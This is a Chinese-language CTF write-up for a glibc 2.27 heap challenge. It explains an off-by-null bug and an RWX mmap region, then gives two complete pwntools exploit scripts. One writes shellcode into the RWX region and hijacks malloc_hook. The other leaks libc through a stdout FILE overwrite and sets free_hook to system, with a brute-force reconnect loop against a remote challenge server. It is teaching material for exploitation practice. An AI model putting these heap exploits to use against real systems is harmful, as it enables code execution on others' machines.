






## 保护策略：




## 漏洞所在：

在edit函数中的输入函数内，存在一个off by null的漏洞。(如下图)




然后在程序的开始部分，使用mmap函数映射了一段可读可写可执行的内存区出来，并将该地址打印了出来。


## 利用思路：

这题的libc版本是2.27，因此可以利用off by null打一个tcache dup。但难点在于没有show函数，且开了FULL RELRO保护。通常我们采取的措施是io leak，这属于常规做法，但是这道题还给了一片可读可写可执行的区域，因此如果我们能在这个区域写入shellcode，并最后劫持malloc_hook为这个地址也是可以拿到shell的而且全程不需要泄露地址。

因此这道题有两种做法，我都分别记录一下。

先说全程不泄露libc地址的这个方法。

### 方法一：

先利用off by null漏洞做一个堆块重叠，然后打tcache dup，此时就可以再打tcache poisoning了，由于我们知道那片可读可写可执行的内存地址，所以我们直接将其申请出来，写入shellcode。（我这里是提前准备了两组tcache dup）

这部分的exp为：

```py
p.recvuntil('Mmap: ')
leak_addr=int(p.recv(12),16)
log_addr('leak_addr')
add(0x4f0)#0
add(0x28)#1
add(0x48)#2
add(0x4f0)#3
add(0x20)#4

delete(0)
edit(2,b'b'*0x40+p64(0x580))

delete(3)

add(0x4f0)
add(0x28)
add(0x48)


#two groups of tcache dup
delete(1)
delete(3)

delete(2)
delete(5)

add(0x28)


edit(1,p64(leak_addr)+b'\n')
add(0x28)
add(0x28)

edit(3,shellcode_store('shell_64')+b'\n')
```


然后我们要将malloc_hook给申请出来写入shellcode的地址，这里我们采用的方法是打一个off by null做一个堆块重叠，就是让两个要合并的堆块中间夹杂一个被释放掉且位于tcachebin中的堆块，当两个堆块合并后，我们控制一下申请出来的内存，让unsorted bin的fd指针落在tcachebin的fd指针上即可。(下面两张图片为申请前后的情况)







然后我们修改其main_arena+88最后一个字节为0x30，即可将其改为malloc_hook的地址。然后把malloc_hook申请出来写入shellcode的地址

### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',26270)
context.log_level='debug'
d_d=0xc91
d_a=0xc85
d_e=0xc9d

def add(size):
    p.sendlineafter('>> ',str(1))
    p.sendlineafter("Size: ",str(size))
    p.recvuntil('Pointer Address ')
    addr=int(p.recv(14),16)
    return addr
    
def delete(index):
    p.sendlineafter('>> ',str(2))
    p.sendlineafter('Index: ',str(index))

def edit(index,content):
    p.sendlineafter('>> ',str(3))
    p.sendlineafter('Index: ',str(index))
    p.sendafter('Content: ',content)
    

p.recvuntil('Mmap: ')
leak_addr=int(p.recv(12),16)
log_addr('leak_addr')
add(0x4f0)#0
add(0x28)#1
add(0x48)#2
add(0x4f0)#3
add(0x20)#4

delete(0)
edit(2,b'b'*0x40+p64(0x580))

delete(3)

add(0x4f0)
add(0x28)
add(0x48)


#two groups of tcacheb dup
delete(1)
delete(3)

delete(2)
delete(5)

add(0x28)
edit(1,p64(leak_addr)+b'\n')
add(0x28)
add(0x28)

edit(3,shellcode_store('shell_64')+b'\n')

#debug(p,'pie',d_d,d_a,d_e)
add(0x48)
add(0x4f0)
delete(0)

edit(5,b'b'*0x40+p64(0x580))

delete(6)

add(0x520)
edit(5,b'\x30'+b'\n')

add(0x40)
add(0x40)
edit(7,p64(leak_addr)+b'\n')
p.sendlineafter('>> ',str(1))
p.sendlineafter("Size: ",str(0x10))
p.interactive()
```




### 方法二：

这个方法就是常规的打io leak。先是用off by null做一个堆块重叠，让两个大堆块合并的时候，中间包含一个进入tcachebin的堆块，然后申请一定字节的堆块将unsorted bin的fd指针落在tcachebin的fd指针上，然后进行爆破一比特篡改为stdout结构体地址，往stdout结构体中写入数据篡改一些字段，然后泄露libc地址。再打一次tcache dup+tcache poisoning篡改free_hook写入system地址，最终拿到shell。

就不放具体调试的图片了，直接放下exp。

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',29725)
#context.log_level='debug'
d_d=0xc91
d_a=0xc85
d_e=0xc9d

def add(size):
    p.sendlineafter('>> ',str(1))
    p.sendlineafter("Size: ",str(size))
    p.recvuntil('Pointer Address ')
    addr=int(p.recv(14),16)
    return addr
    
def delete(index):
    p.sendlineafter('>> ',str(2))
    p.sendlineafter('Index: ',str(index))

def edit(index,content):
    p.sendlineafter('>> ',str(3))
    p.sendlineafter('Index: ',str(index))
    p.sendafter('Content: ',content)
    

def pwn():
    p.recvuntil('Mmap: ')
    leak_addr=int(p.recv(12),16)
    log_addr('leak_addr')
    add(0x4f0)#0
    add(0x28)#1
    add(0x48)#2
    add(0x4f0)#3
    add(0x20)#4

    delete(0)
    edit(2,b'b'*0x40+p64(0x580))

    delete(3)

    add(0x4f0)
    add(0x28)
    add(0x48)


#two groups of tcache dup
    delete(1)
    delete(3)

    delete(2)
    delete(5)

    delete(0)
    add(0x48)
    add(0x4f0)

    edit(0,b'b'*0x40+p64(0x580))
    delete(1)


    add(0x520)
    edit(0,b'\x60\x97'+b'\n')#\x60\x97  \x60\x07\xdd
    add(0x48)
    add(0x48)
    edit(3,p64(0xfbad1887)+p64(0)*3+b'\x00'+b'\n')

    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    log_addr('leak_libc')
    libc_base=leak_libc-0x3ed8b0
    log_addr('libc_base')
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    add(0x20)
    edit(5,p64(free_hook)+b'\n')
    #debug(p,'pie',d_d,d_a,d_e)
    add(0x20)
    edit(6,b'/bin/sh\x00'+b'\n')
    add(0x20)
    edit(7,p64(sys_addr)+b'\n')
    delete(6)

    p.interactive()

while 1:
    try:
        p=remote('node4.buuoj.cn',29725)
        pwn()
    except:
        p.close()

 
```

